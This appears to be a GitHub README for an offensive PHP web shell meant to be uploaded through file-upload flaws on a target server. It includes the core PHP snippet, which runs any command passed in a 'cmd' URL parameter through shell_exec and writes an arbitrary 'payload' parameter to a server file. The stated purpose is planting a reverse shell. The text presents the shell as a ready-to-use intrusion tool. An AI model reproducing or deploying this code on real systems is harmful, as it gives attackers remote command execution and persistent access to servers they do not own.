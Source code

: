# extra-web-shell

## What is this?
#### this is a simple web shell, contains both, bind and option of upload a reverse shell
[extra-shell]()
## How can this help me?
#### well, sometimes when you find a file upload vulnerability, you will find that you can't bypass the extension eaisy, for example you have to try many extension methods such as, php, php5, jpg.php ... this extra web shell, will help you to upload any kind of files start from php, txt ...etc

## Bind shell section
#### this part of the tool, you can execute any command on the server without any problem, and the output will be visible in the output border

## Create file or reverse shell section
#### here you can upload any file just copy the content of this file and the output will give you the link of it to acssess
#### you can edit the name and the extension in the source code from "reshell.php" to what you like
```php
<?php
	if(isset($_GET['cmd']))
	{
	    $output = shell_exec($_GET['cmd']);
	}
	elseif (isset($_GET['payload'])) {
		file_put_contents("reshell.php", $_GET['payload']);
		$path = "reshell.php";
	}	
?>

```

## LICENCE
[MIT](https://github.com/hamza07-w/extra-web-shell/blob/main/LICENSE)
